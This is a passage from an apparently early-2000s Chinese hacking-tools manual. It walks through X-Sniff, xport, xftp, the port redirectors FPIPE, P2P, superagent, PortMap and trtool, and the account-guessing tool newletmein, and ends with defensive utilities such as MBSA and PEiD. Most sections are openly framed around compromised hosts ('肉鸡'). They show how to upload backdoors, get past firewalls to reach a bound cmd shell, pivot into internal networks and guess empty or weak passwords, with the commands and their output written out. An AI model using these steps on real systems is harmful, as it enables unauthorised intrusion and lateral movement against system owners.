就是说，关掉当前执行该命令的 cmd 窗口，该命令照样可以运行。其原因很简单，就是因为该命令当前被注册为一个进程，我们用 tlist 就可以轻松地看到当前的 xsniff 的进程了：

```text
1560 xsniff.exe （在这里，这就是 xsniff 的进程）

528 cmd.exe          python c:/tlist
500 tlist.exe
```

如果想要结束进程的话，我们可以这样：

```text
C:\> kill xsniff.exe
process xsniff.exe (1560) killed
```当然，如果你可以通过 GUI 界面登录肉鸡的话，在任务管理器中直接结束掉该进程也是可以的。

### 五、针对端口的嗅探

当你想针对某个端口的出站数据进行监听的时候，那么，你就可以使用 -port 参数了，例如，我们可以这样来做：

```text
E:\hack-tool\x-tool>xsniff -tcp -port 139

X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing TCP PORT=139 ...
<Ctrl-C> to quit

TCP 192.168.0.2->192.168.0.1 Port: 139->1043
Bytes=8 TTL=128 Len=112 --S--
A-
TCP 192.168.0.1->192.168.0.2 Port: 1043->139
Bytes=8 TTL=128 Len=112 --S--
--A-
TCP 192.168.0.1->192.168.0.2 Port: 1043->139
Bytes=0 TTL=128 Len=80 ----
A-
TCP 192.168.0.1->192.168.0.2 Port: 1043->139
Bytes=72 TTL=128 Len=80 ---PA-
TCP 192.168.0.2->192.168.0.1 Port: 139->1043
Bytes=4 TTL=128 Len=80 ---PA-
Bytes=66 TTL=128 Len=80 ----
PA-
TCP 192.168.0.2->192.168.0.1 Port: 139->1043
Bytes=39 TTL=128 Len=80 ----
PA-
TCP 192.168.0.1->192.168.0.2 Port: 1043->139
Bytes=0 TTL=128 Len=80 F---
A-
TCP 192.168.0.2->192.168.0.1 Port: 139->1043
Bytes=0 TTL=128 Len=80 F---
A-
TCP 192.168.0.1->192.168.0.2 Port: 1043->139
Bytes=0 TTL=128 Len=80 ----
A-
```

以上这个命令是监听本地的 TCP 139 端口，在监听的同时，我在另外一台主机上使用了 **net send** 命令，大家虽然看不到 **net send** 所发送的数据内容，但是却可以清楚地看到整个 **net send** 的过程。

同样，还是针对端口监听，还是使用 **net send**，如果我们使用下面的命令，就将会看到一个与上面有些相似但是又在一些地方相反的过程：

```text
E:\hack-tool\x-tool>xsniff -addr 192.168.0.1 -tcp -port 139

X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing TCP ADDR=192.168.0.1 PORT=139 ...
<Ctrl-C> to quit

TCP 192.168.0.2->192.168.0.1 Port: 139->1044

Bytes=8 TTL=128 Len=112 -S--
A-

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=8 TTL=128 Len=112 -S--
---

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=0 TTL=128 Len=80 ----
A-

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=72 TTL=128 Len=80 ---
PA-

TCP 192.168.0.2->192.168.0.1 Port: 139->1044

Bytes=4 TTL=128 Len=80 ---
PA-

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=66 TTL=128 Len=80 ---
PA-

TCP 192.168.0.2->192.168.0.1 Port: 139->1044

Bytes=39 TTL=128 Len=80 ---
PA-

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=0 TTL=128 Len=80 F---
A-

TCP 192.168.0.2->192.168.0.1 Port: 139->1044

Bytes=0 TTL=128 Len=80 F---
A-

TCP 192.168.0.1->192.168.0.2 Port: 1044->139

Bytes=0 TTL=128 Len=80 ----
A-
```

该命令是用来监听那台使用 **net send** 命令的主机（其 IP 地址为：192.168.0.1）。

使用 **-addr** 参数，可以在一个多主机的网络中很方便地对某一台主机进行监听，过滤掉其他对我们无用的数据，非常方便。

接下来，我们加上一个 **-asc** 参数，然后，使用命令：

```text
xsniff -tcp -port 139 -asc
```

来监听本地主机的 TCP 139 端口，在另外一台主机上给该机 **net send**，你会发现一些奇怪的符号（因为这些符号在文本形式中无法正常显示，所以不再贴出结果，请大家自己实验）；这就是因为我使用了 **-asc** 参数，该参数可以将端口上的数据捕捉并以 ASCII 形式显示，如果大家有兴趣的话，可以根据 ASCII 码表，将这些奇怪符号（实际上就是 ASCII 码）对应的英文或数字找出来，会发现其中就包含着我们 **net send** 时候发送的消息。


除了 **-asc** 参数以外，类似的还有 **-hex** 参数。

以上的几个实例中，基本上包含了 xsniff 的所有常见参数，另外，很多参数是可以随意组合的，希望大家自己动手试一下，相信会发现更多、更好的使用方法。

**编者按：**以下两节（6.4 和 6.5）中介绍的工具不属于嗅探类，但因为和上面的 X-Sniff 同属于 X-tools 系列，这里我们就一起介绍给大家了。

## 6.4 xport

xport 是安全焦点的 X 系列工具中的扫描端口的工具，是 glacier 的作品，在命令行格式下使用，速度快，而且扫描结果准确，非常适合在肉鸡上使用。

下面，就讲一讲 xport 工具的使用方法。打开命令提示符（win2k 下使用 cmd，win9x 下使用 MS-DOS），将工作目录切换到 xport 所在目录，直接输入 xport 则可以看到帮助的内容（帮助内容如下）：

```text
E:\hack-tool\x-tool>xport
X-Port v1.3 - command line port scanner

Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Usage: xport <Host> <Ports Scope> [Options]

<Ports Scope> means:
  <Start Port>[-<End Port>][,Port1,Port2-Port3,...]

[Options] means:
  -m <mode> : specify scan mode (tcp/syn), default is tcp connect mode
  -t <count>: specify threads count, default is 50
  -v        : display verbose information

Example: xport www.xxx.com 80 -m syn
         xport 192.168.1.1 1-1024 -t 200 -v
```

解释一下几个参数的意义：

- **-m 参数：**这是用来指定扫描模式的，有两种扫描模式：SYN 模式和 TCP 模式。
- **-t 参数：**该参数的作用是用来指定线程数的，默认线程数为 50。
- **-v 参数：**用来显示详细的扫描信息。

以下我们来用实例说明：

- 1. 扫描主机 192.168.0.1 的 1 至 139 端口，采用 TCP 扫描模式，线程为 100。

命令为：`xport 192.168.0.1 1-139 -m tcp -t 100`。

速度奇快，扫描结果为：

```text
E:\hack-tool\x-tool>xport 192.168.0.1 1-139 -m tcp -t 100
X-Port v1.3 - command line port scanner

Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Scanning 192.168.0.1 1-139

Remote host: 192.168.0.1 (192.168.0.1)
Local address: 192.168.0.2
Scan mode: TCP connect
Port count: 139
Thread count: 100
```


另外，还可以扫描指定的端口，例如，我要扫描 21、80、139 这三个指定的端口，那么，使用命令：

```text
xport 192.168.0.1 21,80,139 -m tcp -t 100 -v
```

可以看到结果：

```text
E:\hack-tool\x-tool>xport 192.168.0.1 21,80,139 -m tcp -t 100 -v

X-Port v1.3 -- command line port scanner

Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Scanning 192.168.0.1 21 80 139

Remote host: 192.168.0.1
Local address: 192.168.0.2
Scan mode: TCP connect
Port count: 3
```

xport 的使用方法大概就是如此啦，该工具虽然不能针对漏洞进行细致的扫描，但是，作为一个针对端口的扫描工具来说，xport 既小巧，速度又快，是不可多得的好工具，希望大家能善用啊。

## 6.5 xftp

xftp 是 xfocus 的 glacier（冰河）的 X 工具系列的作品。从名字上就不难看出，它是一个 FTP 工具。

我们先看一下帮助的内容：

```text
E:\hack-tool\x-ftp>xftp
X-Ftp v1.0 - simple command line ftp client, code by glacier
http://www.xfocus.org
glacier@xfocus.org

Usage: xftp <FTPServer> <Port> <Act> <Source File> <Target File> [User] [Pass]

<Act> means:
  get: download file from FTP server and save to <Target File>
  put: upload file to FTP server named <Target File>

Example: xftp xxxx.com 21 put d:\src.txt /target.txt root pass
         xftp xxxx.com 21 get /src.txt d:\target.txt
```

无非就是两个作用，一个是 get 点什么东西下来，要不然就是 put 个后门或是病毒（病毒！？呵呵，太狠了）什么的上去。

接下来看一下例子吧。主机 python 是一台 FTP 服务器，端口是 5277，主目录是什么就不管了，不在讨论范围内，接下来，我们要从 FTP 上 get 点东西到本地的 C 盘根目录上，那么，我们这样使用该命令。

```text
E:\hack-tool\x-ftp>xftp python 5277 get /svr.exe c:\svr.exe administrator 123456

X-Ftp v1.0 - simple command line ftp client, code by glacier
http://www.xfocus.org
glacier@xfocus.org

Transmitting '/svr.exe' to 'c:\svr.exe'

FTP server:    python (192.168.0.2)
FTP port:      5277
Local address: 192.168.0.2
Source file:   /svr.exe
Target file:   c:\svr.exe
Username:      administrator
Password:      123456

220 python Microsoft FTP Service (Version 5.0)
331 Password required for administrator.
USER administrator
230 User administrator logged in.
PASS 123456
250 CWD command successful.
CWD /
200 Type set to I.
TYPE I
213 3732922
SIZE svr.exe
200 PORT command successful.
150 Opening BINARY mode data connection for svr.exe(3732922 bytes)
RETR svr.exe
Current percent: 100%
226 Transfer complete.
221
QUIT

Transmit file complete, use 370 ms.
```

这个命令就是从对方的 FTP 的虚拟目录中 get 一个名为 svr.exe 的文件，放到本地磁盘 C 盘的根目录中。

```text
xftp python 5277 get /svr.exe c:\svr.exe administrator 123456
```

- **python**：是指 FTP 服务器（我这里是用主机名表示的，也可以用 IP）
- **5277**：这是 FTP 的端口号（默认为 21，这里我为了安全起见，修改为 5277）
- **/svr.exe**：是指 FTP 服务器上的文件
- **c:\svr.exe**：是指定放在本地的位置
- **administrator 123456**：这分别是 FTP 服务器的用户名和密码

命令的整个过程就是 FTP 的验证和传输的整个过程，其实都是可以从命令显示中一目了然地看出来的。大家有兴趣可以看一看。

接下来，说一下 put，这里，我们就是把 C 盘根目录中的 svr.exe 放到对方的 FTP 主目录中：

```text
E:\hack-tool\x-ftp>xftp python 5277 put c:\svr.exe /svr.exe administrator 123456

X-Ftp v1.0 - simple command line ftp client, code by glacier
http://www.xfocus.org
glacier@xfocus.org

Transmitting "c:\svr.exe" to "/svr.exe"
```

```text
FTP server: python (192.168.0.2)
FTP port: 5277
Local address: 192.168.0.2
Source file: c:\svr.exe
Target file: /svr.exe
Username: administrator
Password: 123456

220 python Microsoft FTP Service (Version 5.0)
331 Password required for administrator.
USER administrator
230 User administrator logged in.
PASS 123456
250 CWD command successful.
CWD /
200 Type set to I.
TYPE I
200 PORT command successful.
150 Opening BINARY mode data connection for svr.exe.
STOR svr.exe
Current percent: 100%
226 Transfer complete.
221
QUIT

Transmit file complete, use 260 ms.
```

这个就是上传命令了，其实，除了 put 命令，其他的各个参数和 get 时候都是一样的，不过顺序变了一下而已，大家可以对照地查看一下。

总之，这个命令使用起来还是挺简单的，至少，在我认为，使用该工具的速度会快一些（呵呵，这里不是说数据传输速度，而是输入的速度，因为无论是图形还是传统的命令形式，都要经过 N 步才可以，而该命令一步到位，全部搞定，嘿嘿）！我想，在入侵过程中，应该会发挥一定的作用吧。

## 基础设施


在本章节中，我们以介绍综合工具为主，这些工具主要包括了端口重定向（协议转发）、破解口令、加壳脱壳、获取系统返回地址、pstools、D.O.S 攻击、防火墙的基本配置，以及其他一些常用工具软件的安装，包括 activeperl、cygwin、winhex、W32Dasm 等。

## Hack百宝箱

## 7.1 FPIPE

FPIPE 是一个针对 TCP 协议的端口重定向程序。

```text
E:\hack-tool>fpipe
FPipe v2.04 - TCP port redirector
Copyright 2000 (C) by Foundstone, Inc.
http://www.foundstone.com

FPipe [-hvn] [-bs <sport>] IP

-?/-h - shows this help text
-c     - maximum number of allowed simultaneous connections. Default is 32
-l     - listening port number
-r     - remote TCP port number
-s     - outbound connection source port number
-v     - verbose mode

Example:
fpipe -l 53 -s 53 -r 80 192.168.1.101

This would set the program to listen for connections on port 53 and,
when a local connection is detected, a further connection will be
made to port 80 of the remote machine at 192.168.1.101 with the
source port for that outbound connection being set to 53 also.
Data sent to and from the connected machines will be passed through.
```

我们这样来使用：

```text
fpipe -l 80 -s 81 -r 80 www.sohu.com
```

这样的命令的作用是，将本地的端口 80 通过本地 81 端口重定向到 www.sohu.com 的 80 端口上。这样的话，在本地打开 IE，并在地址栏里输入 http://127.0.0.1，等待一会，很快就会发现，地址跳转到了 http://www.sohu.com。利用这个，我们可以做一个简单的端口重定向来绕过防火墙。

例如，一个防火墙只对外允许 TCP 80 端口和 5000 以上的 TCP 端口，但是我知道了对方开了 telnet 服务，并使用默认的 23 端口。由于防火墙原因，我不能直接 telnet 连接获得 shell。那么，我们可以通过 80 端口找到漏洞上传 FPIPE，并想办法运行这样的命令：

```text
fpipe -l 5277 -s 5277 -r 23 127.0.0.1
```

这时候，我们就可以这样：telnet ip 5277 来获得 shell。

因为对方的防火墙允许 5000 以上的端口进行连接，不会对我们的 telnet 请求进行拦截，而从被入侵主机的 FPIPE 上，我们可以获得这些信息：

```text
E:\hack-tool>fpipe -l 5277 -s 5277 -r 23 127.0.0.1
FPipe v2.04 - TCP port redirector
Copyright 2000 (C) by Foundstone, Inc.
http://www.foundstone.com

Pipe connected.
In:        127.0.0.1:1148  -->
127.0.0.1:5277
Out:       127.0.0.1:5277  -->
127.0.0.1:23

Quit signal detected. Shutting down...
```

从这里可以看出来，FPIPE 将本地的 5277 端口重定向到了端口 23 上。

当然，以上只是一个简单的例子，在入侵中并不一定可以使用，但是，至少可以说明一些问题，而且我相信，会对大家有些帮助。

## 7.2 P2P

P2P 也是一个用于 TCP 端口重定向的工具，其使用方法和原理与 FPIPE 相似，不过现在端口重定向的利用这么常见，所以也针对其做一下介绍。

该工具是命令行下的工具，直接输入 p2p 后会看到帮助：

```text
B:\hack-tool\p2p>p2p

Port2Port ver 1.01
Write by fancpp. 2001.7.10
Email: fancpp@yeah.net

Usage: P2P [-options] <-l lPort> <-T tIP> <-t tPort>
options:
    -h              Help
    -d              Display message
    -s              Save message to logs (.\p2p.log)

    -l lPort        Local Port
    -T tIP          Target IP
    -t tPort        Target Port
```

```text
Sample:

P2P -d -s -l 3389 -T 192.168.0.4 -t 3389
```

功能比较单一，但是很好用。例如，在本地计算机上，我使用这样的命令：

```text
p2p -s -l 5277 -T 192.168.0.77 -t 23
```

这个命令的作用是将本地计算机的 5277 端口重定向到 192.168.0.77 这台计算机的 23 端口（telnet 端口）上。-s 参数的作用是在 p2p.exe 的同级目录下记录日志，如果出现错误，可以查看 p2p.log 来查找错误出在哪里。

```text
E:\hack-tool\p2p>p2p -s -l 5277 -T 192.168.0.77 -t 23

Port2Port ver 1.01
Write by fancpp. 2001.7.10
Email: fancpp@yeah.net
```

使用命令后，会看到上面的这些文字提示。然后，我们就使用命令 `telnet 127.0.0.1 5277`。

等待一会，这样，p2p 就将我们的 telnet 请求重定向到 192.168.0.77 的 23 端口上。

同样地，我们还可以做很多事。这样的工具适合放在网关上。例如，你入侵了一个局域网，将该工具在局域网的网关上运行，这样，就可以通过 Internet 来访问局域网的内部了，非常方便。

希望大家善用哦。

## 7.3 superagent

superagent 的作用就是协议转发，它可以将 TCP 请求转换为 UDP 请求，或者是反过来，这样一来，可以有效地突破防火墙或是网关的限制，是个不可多得的好工具啊。

先来看一下帮助：

```text
E:\hack_tool>superagent

SuperAgent use for TCP and UDP socket data redirct

Power by ev4s<ev4s@21cn.com>
http://ev4s.3322.net
2001/6/7

usage: superagent <mode>
[mode]
    -t <TargetIP> <TargetTCPPort> <LocalUDPPort>
    -u <TargetIP> <TargetUDPPort> <LocalUDPPort> <LocalTCPPort>
```

不知道看了帮助之后对大家是否有什么启发，如果还是不太懂的话，下面，我用两个例子来说明一下，相信对大家会有所帮助的。

这里，先举一个 superagent 将 UDP 请求转换为 TCP 请求的例子。假设，一公司内，屏蔽掉了所有的 UDP 请求，但是，所有的 TCP 请求却不受阻。这样，我们就可以用 superagent 来突破网关限制上 QQ，但是，前提是你要有一台在 Internet 上的肉鸡。

在你的肉鸡上，运行这样一个命令：

（这里，我们假设 tencent.server.com 为腾讯公司的 QQ 服务器）

```text
E:\hack_tool>superagent -u tencent.server.com 8000 7000 5277

OK! Work mode is [u]
Listen TCP 127.0.0.1:5277 ok!

**********OK! SuperAgent working now**********

Wait for ev4s connect to me...... :)
```

这时候，在你自己的机器上，运行这个命令：

（我们假设 192.168.0.2 为你的肉鸡的 IP 地址）

```text
C:\>superagent -t 192.168.0.2 5277 8000
```

```text
OK! Work mode is [t].

************OK! SuperAgent working now************

Bind UDP port 8000 ok.
Wait for UDP socket have data to be recv.
```

下面解释一下，在两台机器上分别发生了什么。

在肉鸡上，监听本地的 TCP 5277 端口；并且，当有输入从 TCP 5277 进入的时候，superagent 自动将数据转发到本地的 UDP 7000 端口上，然后，数据会再从本地的 UDP 7000 端口发送到 tencent.server.com 服务器的 UDP 8000 端口。

接下来，看一下在本地机上发生了什么。

本地机会监听 UDP 8000 端口，一旦从这里有数据进入，superagent 就会将 UDP 8000 端口上的数据转换成为 TCP 数据，并从本地机的 TCP 5277 上将数据发送到 192.168.0.2（也就是肉鸡）上。

好，接下来，我们在本地来上 QQ。首先，我们要先在 QQ 的参数设置里将服务器的地址改为 127.0.0.1（即本地地址），然后，我们填写上 QQ 号和密码，点登录。接下来，我们来看一下，在后台 superagent 都做了什么：在本地上，superagent 从 UDP 端口 8000 上收到了 QQ 的登录请求，于是，它就将该数据转换成为 TCP 数据并从 TCP 5277 端口上发送到肉鸡上（即发送到 192.168.0.2）。这时候，肉鸡在 TCP 5277 上接收到了数据，于是，就将 TCP 请求转换成为 UDP 请求，从本机的 UDP 7000 端口上发送到 tencent.server.com（我们假设的腾讯的 QQ 服务器）的 UDP 8000 上，这样，就完成了 QQ 的登录请求。

怎么样，很好玩吧？

接下来，我们再来说一个将 TCP 请求转换为 UDP 请求的例子。

还是要假设一个环境。例如，我入侵了一个局域网中的两台主机 A，并在其 TCP 5277 端口上绑上了一个 shell。在我入侵成功过后，该局域网进行了加固，屏蔽掉了一部分 IP 地址的 TCP 连接，而我的 IP 地址就在屏蔽之列，因此，我不能直接通过 telnet ip 5277 的方式来登录这个 shell 了。

但是，我却发现，我可以和主机 A 进行 UDP 通信，因此，我通过 IIS 的端口 80 的漏洞上传了 superagent，并且，通过该漏洞让其在主机 A 上运行如下命令：

```text
E:\hack-tool>superagent -t 127.0.0.1 5277 7000

OK! Work mode is [t].

************OK! SuperAgent working now************

Bind UDP port 7000 ok.
Wait for UDP socket have data to be recv.
```

然后，在我的本地机上运行：

（这里，我们假设 www.target.com 为主机 A 的域名）

```text
C:\>superagent -u www.target.com 7000 8000 5277

OK! Work mode is [u].
Listen TCP 127.0.0.1:5277 ok!

************OK! SuperAgent working now************

Wait for ev4s connect to me......:)
```

解释一下：

主机 A 上监听 UDP 7000 端口，并等待数据的连入。

在本地机上，监听本机的 TCP 5277 和 UDP 8000 端口。

这时候，我在本地机上运行命令：

```text
telnet 127.0.0.1 5277
```

本地的 superagent 响应了，并将发送到本地 TCP 5277 端口上的数据转换成 UDP 请求，从本地的 8000 端口发送到了 www.target.com（我的肉鸡）的 UDP 7000 端口上。

由于我和肉鸡之间的 UDP 连接是被允许的，因此，肉鸡上的 superagent 响应，并在 UDP 7000 上接收到了数据，然后，superagent 将 UDP 请求转换成为 TCP 请求，并发往 127.0.0.1（即本地机，也就是肉鸡自己）的 TCP 5277 端口上。

这样一个过程可以看出来，我们通过将 TCP 数据转换成 UDP 数据，然后，在肉鸡上又将 UDP 数据转换成 TCP 数据并连接获得 shell。

这就是一个 TCP 请求转换为 UDP 请求的例子了。

两个例子都讲完了，工具的作用基本上也讲清楚了，不知道对大家有没有启发？

## 7.4 PortMap

PortMap 是一个图形界面的端口映射工具，实际上和 FPipe 的作用是类似的，它可以将某台电脑上的服务映射到另一台电脑上。举个简单的例子，在局域网内的一台 Win2000 服务器，开放了 3389 服务，但是我们在公网却是访问不了的，因为我们只能直接地与对方的网关建立连接，而使用 PortMap 就可以轻松地解决这个问题。

我们需要在网关服务器上来运行 PortMap，而不是在那台局域网内的电脑上来运行 PortMap。PortMap 启动后的主界面见图 1，点击左上角的“增加”按钮，出现配置菜单，名称栏中随便输入，关键是下边的“端口设定”。在“输入 IP”栏中我们可以选择“Any IP”，也就是任何的 IP 地址都可以访问，当然也可以只选择特定的 IP 地址，以防止别人来使用。在“输入端口：”一栏中我们可以选择任何的端口，在这儿我仍然选择使用了“3389”端口。下边的“输出 IP：”栏我们输入要映射的那台电脑的 IP 地址 192.168.0.128，也就是那台局域网内的电脑的 IP 地址，因为我们要映射的是对方的终端服务，所以“输出端口：”栏就选择“3389”，配置好了，确定就可以了，见图 2。


图 1

在 PortMap 主界面的“映射组”中我们就会看到刚才所做的配置了，见图 3。不过，先别急着连接，因为此时服务还没有启动，点击一下上方的“启动”按钮就可以了，见图 4。


图 2


图 3


图 4


图 5

现在我们可以进行连接了，使用 XP 的远程桌面连接，或是 2000 的终端连接程序，连接那个网关的 3389，见图 5。熟悉的登录画面出现了，实际上此时我们连接的是那台局域网中 Win2000 的终端服务。

## 7.5 trtool.exe

trtool.exe 是红客联盟（www.cnhonker.com）的 bkbll 编写的一个端口（协议）转发程序，它实现的功能与 PortMap 类似，但与 PortMap 不同的是，trtool.exe 是基于 cmd 下执行的，这就使得我们可以很方便地将程序上传到已经入侵的目标主机上去执行。

trtool.exe 的使用格式见图 1。


图 1

从图 1 中我们可以看到，trtool.exe 一共有三种使用格式，第一种为监听一个端口并连接另一台主机的某个端口；第二种为同时在两个端口进行监听；第三种为同时连接两台主机的两个端口。

```text
E:\sagi>trtool -m 2 -p1 99 -p2 813
```

这样，程序就会在本机上同时监听 99 及 813 端口了，见图 2。


图 2

对于第三种方法，我一直认为作用不大，我本来以为是将第一台主机的某个端口映射到第二台主机上的某个端口，但是测试时，结果却不是如此，只是单纯地同时连接了两台主机。

至于第一种使用方式，我认为是最实用的了。也可以将某台主机，包括局域内的某台主机的某个端口映射到另外一台主机的某个端口上。

举个例子，我们在局域网内的一台主机 192.168.0.155 上先使用 nc 在 99 端口绑定一个 cmd。这样，我们在其它的电脑上使用 nc 连接 192.168.0.155 的 99 端口时就会得到一个 cmd shell。

我们现在在网关 192.168.0.1 上使用 trtool.exe，当然使用其他的电脑也是可以的。

```text
E:\sagi>trtool -m 1 -p1 813 -h2 192.168.0.155 -p2 99
```

这样，就将 192.168.0.155 的 99 端口映射到了我们本机的 813 端口上，见图 3。


图 3


图 4

当我们使用 `nc -vv 192.168.0.1 813`，就会成功地得到一个 cmd shell，而实际上这个 cmd shell，就是我们刚才在 192.168.0.155 的 99 端口上绑定的那个 cmd shell，也就是说我们实际上访问的是 192.168.0.155 那台电脑，图 4。

利用 trtool.exe 的这个功能，我们在成功地入侵了目标的 Web 服务器后，就可以方便地将对方局域网内的一些主机的端口映射到这个 Web 服务器的某个端口上，通过访问这个映射的端口，来达到直接访问对方内网的目的。

## 7.6 July

July 是一个用于查看系统中进程及进程模块的程序，对于查找 BITS 类的插入进程的木马，或是一些使用插入进程技术的内核级的后门程序，使用 July 来进行检查是非常方便的。

July 不需要安装，直接双击启动后的界面见图 1，默认列出了全部的进程。


图 1


图 2

我们在左栏中选择要查看的进程，比如“Explorer.EXE”，在右栏中就会详细地列出该进程的名称、路径、ID 以及全部的模块名称，见图 2。

## 7.7 antiyports

antiyport.exe 是一个用于查看系统进程及进程对应端口号的一个小工具，能够显示出进程对应使用的端口号是其最大的特点，我们可以使用这个工具方便地检查出自己系统上打开的那些莫名其妙的端口是运行的什么程序，来判断是否自己的电脑中了木马，或是被别人植入了什么后门程序。

antiyport.exe 运行后的界面见图 1，像第五行就表明了 termsrv.exe，也就是 win2000 的终端服务，其进程号为 392，使用的对应端口为 3345。

找到可疑的进程后，我们右击这个进程，在弹出的小菜单中选择“kill process”就会杀掉这个进程了。如图 2。

对于普通的木马程序或是后门程序，我们就可以使用这个小工具检查出来。


## 7.8 newletmein

我想关于 letmein 应该有很多人都用过吧。这里介绍的 newletmein 其实就是 letmein 的改进版本：

```text
E:\hack-tool>newletmein
get something from nt, hold by killusa
```

```text
Usage: newletmein \\Server> <group> <options>

group:
  -all            all users
  -admin          Administrators
  -users          Users
  -domainadmins   Domain Admins
  -domainusers    Domain Users
  -guests         Guests
  -domainguests   Domain Guests
  -server         Server Operators
  -account        Account Operators
  -backup         Backup Operators
  -print          Print Operators
  -replicator     Replicator

options:
  -g              get
  int nt by name and num
  -d              just
  display the users
```

它这里介绍的是“get something from nt”，呵呵，我们可以得到什么？其实可以得到的是很多的，例如，用户列表、组列表等等，如果有弱口令的话，我们也是可以得到的。

接下来看看常用的几种方法：

```text
E:\hack-tool>newletmein \\python -all -g
stating connecting to server...
Server local time is: 2003-6-16 26:43:30

Start get all users form server
（从这里不难看出，这步是用来获得用户列表的）

Total = 7

num0= __vmware_user__
num1= Administrator ()
num2= Guest ()
num3= IUSR_PYTHON (Internet 来宾帐号)
num4= IWAM_PYTHON (启动 IIS 进程帐号)
num5= TsInternetUser (TsInternetUser)
num6= VUSR_PYTHON (VSA Server Account)

------------------------------
Total = 7
------------------------------
```

```text
Start get in ......（接下来开始进行简单的猜解）

......略去一部分......

------------------------------
get in account users
------------------------------

totalnum = 0
```

这个工具还可以有针对性地获得某个组的用户，例如这样：

这个命令的作用就是从 python 这台主机上获得用户列表，并且，尝试使用与用户名相同或者是 null（空）为口令连接主机。

如果只想获得用户列表的话，我还可以这样用：

```text
E:\hack-tool>newletmein \\python -admin -d

stating connecting to server
Server local time is: 2003-6-16 26:46:59

Start get all administrators from server...
------------------------------
Group=administrators
------------------------------
num1 = PYTHON\Administrator ()

Total = 1
------------------------------
```

```text
E:\hack-tool>newletmein \\python -all -d

stating connecting to server
Server local time is: 2003-6-16 26:46:25

Start get all users form server...
------------------------------
Total = 7
------------------------------
num0= __vmware_user__
num1= Administrator ()
num2= Guest ()
num3= IUSR_PYTHON (Internet 来宾帐号)
num4= IWAM_PYTHON (启动 IIS 进程帐号)
num5= TsInternetUser (TsInternetUser)
```

呵呵，看出来了没，这样就获得了 administrators 组的用户列表。

同样的方法，只要换掉 -admin 这个参数，还可以获得很多其他组的用户列表。

具体的使用方法请参考帮助。


```text
E:\hack-tool>newletmein \\python -admin -d

stating connecting to server
找不到网络名。
```

因此，它也不是万能的，大家不要太为难它了。呵呵！

## 7.9 portqryv2

portqry 是微软发布的一款用于查看本地网络连接及远程主机开放端口信息的一个程序，我想 **netstat -an** 这个命令大家都使用过，portqry 在本地使用时的作用与这个很相似，但功能却远比 netstat 命令要强大得多。

portqry 的具体使用格式以及命令参数见图 1、图 2，使用信息中也给出了一些使用示例，总的来讲，portqry 主要分为在本地使用以及远程使用两种方式。下边我们先来看一下本地使用方式。


```text
F:\hacker\win2000\PortQryV2>

portqry -local
```

portqry 就会详细地列出本机上所有开启的 tcp 及 udp 端口信息，包括哪些是处于监听状态的，以及与这些端口是否有建立连接的远程主机，和使用 **netstat -an** 的作用几乎是一样的，图 3。


```text
F:\hacker\win2000\PortQryV2>

portqry -wport 135 -l 135.log
```

作用是将 135 端口的状态及连接信息记录在 135.log 文件中，图 4。


图 4

下边再让我们来看一下针对远程主机的使用格式。

```text
F:\hacker\win2000\PortQryV2>
portqry -n www.jscpu.com -p BOTH -r 21:200
```

作用于检测 www.jscpu.com 主机的端口状态信息，端口从 21 到 200，包括 TCP 及 UDP 端口，图 5。


图 5

以上就是 portqryv2 的一些简单的使用方法，我们可以通过 portqryv2 的帮助信息来详细掌握 portqryv2 的使用。

## 7.10 Microsoft Baseline Security Analyzer

Microsoft Baseline Security Analyzer 是微软推出的一个专门用于检测 Windows 系统安全的一个工具程序。MBSA 检测的项目很多，主要包括 Security Update Scan Results、Windows Scan Results、Additional System Information、Internet Information Services (IIS) Scan Results、Additional System Information、SQL Server Scan Results、Desktop Application Scan Results 等七大类，当然每个小类中又包括若干个小的检测项目，这使得 MBSA 的检测结果很详细，对于 Windows 的管理员来说，MBSA 是个很有用的安全检测工具。

不过，MBSA 只是一个安全检测程序，而并非是网络扫描程序，因此它与流光、x-scan 等工具是截然不同的。

MBSA 启动后的界面见图 1，虽然是全英文界面，不过应当算是比较好掌握的了，右下方一共有三个选项，分别为“Scan a computer”（检测一台计算机）、“Scan more than one computer”（检测一台以上的计算机）、“View existing security reports”（查看安全报告）。

在这儿我们选择第一个，也就是“Scan a computer”，对我们使用的 Windows 系统进行一次安全检测。

接下来是进行检测的项目的选择界面，见图 2，“IP address”栏中输入我们的 IP 地址，通常为 127.0.0.1，因为是本地电脑，所以“Computer name”可以不用输入。检测的项目一共有“Check for Windows vulnerabilities”、“Check for weak passwords”、“Check for IIS vulnerabilities”、“Check for SQL vulnerabilities”、“Check for security updates”五个，我们可以全部选中。

点击下边的“start scan”，MBSA 就开始自动地检测了。检测完成后的界面见图 3。


图 1


图 3


图 2

图 4 是对于 IIS 检测的信息，前边有红色“X”号的表明可能存在严重的安全问题，比如 IIS lockdown tool 没有安装，有一些 IIS 的示例文件被安装了等等。

除了检测到这些安全问题外，MBSA 还提供了如何修复这些问题的方法，我们只需要点击“How to correct this”就可得到正确的建议了。


图 4

## 7.11 PEiD

PEiD 是一个非常著名的专门用于检测程序所加壳的种类的工具，PEiD v0.91 可以检测出 450 多个不同的壳，可以说目前出现的加壳软件，它几乎都可以检测出来。使用 PEiD 再配合一个强大的脱壳软件，就可以轻松脱掉许多程序所加的壳，让它们“原形毕露”。

下边让我们来看一下 PEiD 的简单使用。PEiD v0.91 启动后的界面见图 1。虽然没有经过汉化，不过，我认为还算是比较简单的。我们点击“File”最右边的那个按钮，来选择我们要检测的源程序，在图 2 中我们以 nc.exe 为例。


图 1

图 3


图 2

选择好文件后，peid 就会自动地进行检测了，除了“Entrypoint”、“EP Section”、“File Offset”、“First Bytes”、“Linker Info”、“Subsystem”等六项外，在界面的下栏中会清楚地显示出目标程序所加的壳的类型，在图 3 中，PEiD 就检测出 nc.exe 所加的壳为 UPX，版本为 0.89.6–1.02 或 1.05–1.24，这就使得我们可以选择相应的程序来脱掉这个壳。


## 7.12 pe-scan

